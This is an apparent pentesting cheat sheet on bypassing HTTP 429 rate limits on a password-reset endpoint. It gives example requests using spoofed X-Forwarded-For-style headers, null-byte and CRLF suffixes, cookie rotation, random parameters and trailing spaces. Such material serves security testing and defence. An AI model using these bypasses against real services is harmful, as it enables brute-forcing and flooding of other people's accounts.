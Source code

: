 ## Bypass 429 (Too Many Requests)
 
1. Try add some custom header
```
X-Forwarded-For : 127.0.0.1
X-Forwarded-Host : 127.0.0.1
X-Client-IP : 127.0.0.1
X-Remote-IP : 127.0.0.1
X-Remote-Addr : 127.0.0.1
X-Host : 127.0.0.1
```
For example:
```
POST /ForgotPass.php HTTP/1.1
Host: target.com
X-Forwarded-For : 127.0.0.1
...

email=victim@gmail.com
```

2. Adding Null Byte ( %00 ) or CRLF ( %09, %0d, %0a ) at the end of the Email can bypass rate limit.
```
POST /ForgotPass.php HTTP/1.1
Host: target.com
...

email=victim@gmail.com%00
```

3. Try changing user-agents, cookies and IP address
```
POST /ForgotPass.php HTTP/1.1
Host: target.com
Cookie: xxxxxxxxxx
...

email=victim@gmail.com
```
Try this to bypass
```
POST /ForgotPass.php HTTP/1.1
Host: target.com
Cookie: aaaaaaaaaaaaa
...

email=victim@gmail.com
```

4. Add a random parameter on the last endpoint
```
POST /ForgotPass.php HTTP/1.1
Host: target.com
...

email=victim@gmail.com
```
Try this to bypass
```
POST /ForgotPass.php?random HTTP/1.1
Host: target.com
...

email=victim@gmail.com
```

5. Add space after the parameter value
```
POST /api/forgotpass HTTP/1.1
Host: target.com
...

{"email":"victim@gmail.com"}
```
Try this to bypass
```
POST /api/forgotpass HTTP/1.1
Host: target.com
...

{"email":"victim@gmail.com "}
```

## References
* [Huzaifa Tahir](https://huzaifa-tahir.medium.com/methods-to-bypass-rate-limit-5185e6c67ecd)
* [Gupta Bless](https://gupta-bless.medium.com/rate-limiting-and-its-bypassing-5146743b16be)